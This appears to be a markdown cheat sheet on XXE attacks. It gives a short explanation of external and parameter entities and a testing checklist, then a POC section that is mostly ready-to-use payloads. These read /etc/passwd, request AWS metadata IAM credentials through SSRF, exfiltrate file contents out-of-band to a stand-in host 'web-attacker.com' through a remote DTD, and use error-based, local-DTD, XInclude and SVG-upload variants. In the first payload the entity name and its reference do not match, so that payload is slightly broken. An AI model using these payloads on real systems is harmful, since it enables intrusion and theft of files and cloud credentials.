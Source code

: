 # XML external entities
> XML external entities are a type of custom entity whose definition is located outside of the DTD 
> where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
The URL can use the `file://` protocol, and so external entities can be loaded from file. For example: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
## XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. 
For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

## Test Cases (mini Checklist)
Manually testing for XXE vulnerabilities generally involves:
- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.
- Test for XXE in the normal params not just the XML format (XInclude attacks)
- Try `Content-Type: text/xml` 

> Note
> Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like [XSS](https://portswigger.net/web-security/cross-site-scripting) and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to [obfuscate your attack](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) in order to bypass weak defenses.

# POCs
## Normal
```xml
[*] to retrieve files
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY 0xHunter SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&hunter;</productId></stockCheck>

-----------------------------------------------------------------------------------

[*] to perform SSRF
<!DOCTYPE test [ <!ENTITY Hunter SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
&Hunter; 
```

## BLIND 
```xml
[*] Detecating blind XXE

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>

-----------------------------------------------------------------------------------

[*] blind XXE using out-of-band detection via XML parameter entities

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

-----------------------------------------------------------------------------------

[*] blind XXE using out-of-band detection via XML parameter entities

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
u can target a file like /etc/hostname instead of passwd due to parsing problems
also try use FTP instead of HTTP

-----------------------------------------------------------------------------------

[*] Exploiting blind XXE to retrieve data via error messages

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

-----------------------------------------------------------------------------------

[*] Exploiting blind XXE by repurposing a local DTD

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

---------------------------------------------------------------------------------

[*] Enumrating Local DTD files on the server

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd;]>
----------------------------------------------------------------------------------

[*] XInclude attacks
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

-----------------------------------------------------------------------------------

[*] svg file upload to XXE

<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>

Save it as svg file and upload it
```
